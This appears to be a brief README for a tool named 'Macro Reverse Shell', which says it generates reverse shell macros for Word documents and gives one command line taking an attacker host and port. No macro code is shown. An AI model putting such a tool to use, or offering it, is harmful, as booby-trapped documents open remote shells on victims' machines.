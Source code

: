 # Macro Reverse Shell
Generate a reverse shell macro for Word documents.

```bash
python generate.py <LHOST> <LPORT>
```